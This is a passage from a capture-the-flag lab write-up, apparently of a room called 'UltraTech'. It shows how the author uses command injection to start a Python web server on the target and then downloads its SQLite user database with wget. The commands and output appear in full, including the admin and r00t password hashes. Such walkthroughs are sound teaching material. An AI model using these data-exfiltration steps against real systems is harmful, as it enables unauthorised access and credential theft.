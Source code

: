    ![which python](./.images/which_python.png)

   Here, it can be seen `/usr/bin/python` is present on the machine. 

2. So, we can start a python server by sending the command `python -m SimpleHTTPServer` after which the page just keeps loading, suggesting the command was executed successful. 

3. Now, we can use `wget` on our local machine to download the `.sqlite` file from the target machine:

   ```
   ┌──(kali㉿kali)-[~/Desktop/oscp/ultraTech]
   └─$ wget http://10.10.193.93:8000/utech.db.sqlite
   --2021-04-23 12:09:45--  http://10.10.193.93:8000/utech.db.sqlite
   Connecting to 10.10.193.93:8000... connected.
   HTTP request sent, awaiting response... 200 OK
   Length: 8192 (8.0K) [application/octet-stream]
   Saving to: ‘utech.db.sqlite’
   
   utech.db.sqlite                 0%[                                               ]       0  --.-KB/s  utech.db.sqlite                44%[===================>                           ]   3.55K  10.4KB/s  utech.db.sqlite               100%[==============================================>]   8.00K  12.2KB/s  utech.db.sqlite               100%[==============================================>]   8.00K  12.2KB/s    in 0.7s    
   
   2021-04-23 12:09:46 (12.2 KB/s) - ‘utech.db.sqlite’ saved [8192/8192]
   
   ```

   > There was some guess work here. Normally python server starts on port 8000 that's why I used 8000 but incase if this command would've not got executed successfully then we could've tried port 8080 or we could've passed our own specific port.

As we have the `.sqlite` file we can open it using the `sqlite3` command and check the data stored in it.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/ultraTech]
└─$ sqlite3 utech.db.sqlite 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .database
main: /home/kali/Desktop/oscp/ultraTech/utech.db.sqlite r/w
sqlite> .tables
users
sqlite> select * from users
   ...> ;
admin|0d0ea5111e3c1def594c1684e3b9be84|0
r00t|f357a0c52799563c7c7b76c1e7543a32|0
```
